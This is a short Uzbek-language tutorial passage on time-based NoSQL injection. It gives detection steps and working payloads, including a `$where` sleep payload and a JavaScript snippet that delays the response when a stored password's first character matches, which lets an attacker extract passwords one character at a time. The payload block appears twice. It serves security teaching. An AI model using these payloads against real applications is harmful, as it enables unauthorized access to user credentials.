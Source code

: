 Vaqtga asoslangan injeksiya
Ba'zan ma'lumotlar bazasida xatoni ishga tushirish ilovaning javobida hech qanday farq keltirib chiqarmaydi. Bunday holatda JavaScript injeksiyasidan foydalanib shartli vaqt kechikishini (time delay) yuzaga keltirish orqali zaiflikni aniqlash va ekspluatatsiya qilish mumkin.

Vaqtga asoslangan NoSQL injeksiyasini qanday o'tkazish:

1. Sahifani bir necha marta yuklab, yuklanish vaqtining asosiy (baseline) qiymatini aniqlang.
2. Kiritishga vaqtga asoslangan payload joylashtiring. Vaqtga asoslangan payload bajarilganda javobda maqsadli kechikish yuzaga keladi. Masalan, `{"$where": "sleep(5000)"}` muvaffaqiyatli injeksiya bo'lganda 5000 ms kechikish keltirib chiqaradi.
3. Javob sekinroq yuklanishini aniqlang. Agar yuklanish sekinlashsa — bu muvaffaqiyatli injeksiya belgisi bo'ladi.

Quyidagi vaqtga asoslangan payloadlar parolning birinchi harfi `a` bo'lsa vaqt kechikishini keltirib chiqaradi:

```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

```
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

(oxirgi ikkita qator — payload misollaridir)
